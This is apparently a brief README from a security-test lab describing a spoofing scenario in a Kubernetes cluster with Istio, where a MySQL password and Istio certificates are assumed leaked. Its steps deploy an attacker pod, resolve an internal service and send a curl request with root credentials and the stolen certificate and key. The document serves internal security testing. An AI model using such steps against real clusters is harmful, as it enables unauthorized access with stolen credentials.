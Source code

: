 # Worse Case Spoofing(Already Password and Certificate Leaked)

(TODO)

# Overview
  This document tell you about worse case spoofing.
  In this case, MySQL DB password and Istio certificate are leaked.

# Steps
  cd /path/to/sectest/apps/attacker
  *) kubectl delete -f attacker.yaml
  kubectl apply -f attacker_istio.yaml
  kubectl exec -it attacker bash -n dangerarea
  nslookup mysql-apiserver.default.svc.cluster.local 10.96.0.10
  *) save ip address as <svc-ip>
  curl -k -XPOST https://<svc-ip>:4567/api -d '{"user":"root", "password":"ossj_sectest"}' --key /etc/certs/key.pem  --cert /etc/certs/cert-chain.pem

